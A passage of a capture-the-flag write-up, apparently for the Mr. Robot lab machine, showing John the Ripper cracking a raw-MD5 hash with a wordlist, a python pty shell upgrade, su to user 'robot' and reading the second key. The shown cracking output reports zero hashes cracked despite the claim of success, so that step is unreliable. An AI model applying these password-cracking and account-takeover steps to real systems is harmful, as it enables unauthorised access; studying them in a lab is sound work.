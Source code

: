 
Okay its getting more complicated. We cant open the `key-2-of-3.txt` file due to missing permissions. So we have to change user to `robot` (directory home/robot)

Fortunately he left us his password but hashed in raw-md5. 

We crack such things with `john the ripper`.

`john md5.hash --wordlist=Downloads/fsocity.dic --format=Raw-MD5`

I saved the md5 `c3fcd3d76192e4007dfb496cca67e13b`into a file called `md5.hash` and used the previous wordlist `fsocity.dic` for cracking the password. 

Important is the `format`. It was called `raw-md5` which is very helpful.



```bash
┌──(admin㉿PREDATOR-01)-[~]
└─$ john md5.hash --wordlist=Downloads/fsocity.dic --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=24
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2024-10-22 17:16) 0g/s 21452Kp/s 21452Kc/s 21452KC/s 8output..abcdefghijklmnopqrstuvwxyz
Session completed.
```

And we got a password now. 


The thing to do is to get a shell. 

We can use following command to spawn a shell:

`python -c 'import pty;pty.spawn("/bin/bash")'`

and then we can change user with `su robot`

```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/$

```


Now we can get the second text:


```bash
robot@linux:/$ ls
ls
bin   dev  home        lib    lost+found  mnt  proc  run   srv  tmp  var
boot  etc  initrd.img  lib64  media       opt  root  sbin  sys  usr  vmlinuz
robot@linux:/$ cd home
cd home
robot@linux:/home$ ls
ls
robot
robot@linux:/home$ cd robot
cd robot
robot@linux:~$ ls
ls
key-2-of-3.txt  password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$
``` 